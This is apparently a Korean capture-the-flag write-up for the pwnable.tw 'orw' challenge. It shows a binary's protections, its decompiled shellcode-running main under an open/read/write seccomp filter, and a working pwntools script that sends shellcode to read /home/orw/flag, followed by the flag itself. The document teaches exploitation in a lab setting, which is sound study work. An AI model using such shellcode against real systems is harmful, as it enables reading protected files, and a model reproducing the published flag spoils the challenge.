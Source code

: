 # 문제
***

orw 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX disabled
PIE:      No PIE
RWX:      Has RWX segments
```

file 명령어의 결과는 다음과 같다.
```
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped
```

orw 바이너리 코드
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");   // prctl(38, 1, 0, 0, 0); prctl(22, 2, &v1);
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```

HITCON-Training lab2 문제와 비슷하게 orw_seccomp() 내에서 prctl 함수를 이용하여 사용 가능한 syscall을 제한한다. 

1. execve는 execve 호출 없이는 수행 할 수 없는 권한을 부여하지 않는다. (HITCON-Training lab2 write-up에서 이 부분 관련 내용 조금 틀린듯...)
2. 사용할 수 있는 syscall을 open, read, write로 제한한다. 

## exploit 방법
pwntools의 shellcraft를 이용해서 /home/orw/flag 파일을 open 하고 buffer에 read 한 뒤 화면에 write하는 어셈블리를 짠다.

# 풀이
***
```
#!/usr/bin/python

from pwn import *

#file_path="/home/sungyun/round3/orw/orw"
#p=process(file_path)

p=remote("chall.pwnable.tw", 10001)

p.recvuntil("shellcode:")

pay=pwnlib.shellcraft.open('/home/orw/flag')
pay+=pwnlib.shellcraft.read('eax','esp',0x100)
pay+=pwnlib.shellcraft.write(1,'esp',0x100)

exploit=asm(pay,arch='i386')

p.send(exploit)

print p.recvline()
```

flag : FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}


